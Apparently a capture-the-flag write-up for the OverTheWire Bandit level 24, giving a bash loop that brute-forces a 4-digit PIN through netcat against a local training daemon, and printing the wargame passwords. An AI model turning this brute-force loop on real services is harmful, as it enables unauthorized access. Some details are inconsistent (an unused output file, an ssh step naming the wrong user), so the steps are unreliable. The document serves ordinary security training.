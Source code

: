 # Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# Solution

It is apparent that we need to create a script and for training purposes it is going to be a bash script. The script Runs over all the possible 4 digit combinations and then returns the correct value when founded.
1. Create a bash script file.
```Bash
touch bruteforce.sh
```

2. The bash Script is as follows.
```Bash
#!/bin/bash
rm /tmp/bandit25/output
for i in {0000..9999}
do 
  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done | nc localhost 30002
```
Notice that the piping to the port is done only after all the combinations had finished computing. The basic reason for this is that if netcat is called everytime, this would create multiple procesess that wont shutdown as we dont know the PID of each command. These processes needs resources to stay alive after they have done their purpose, so after a while there are no longer resources to allocate for new commands and forking fails. So in short, it is more efficient to send all the data all at once instead of sending through the script.

3. Run the script until the password appears.
```Bash
./bruteforce.sh
```
The password should be visible now.

4. Exit the bandit24 shell
```Bash
exit
```

5. ssh into bandit25
```Bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
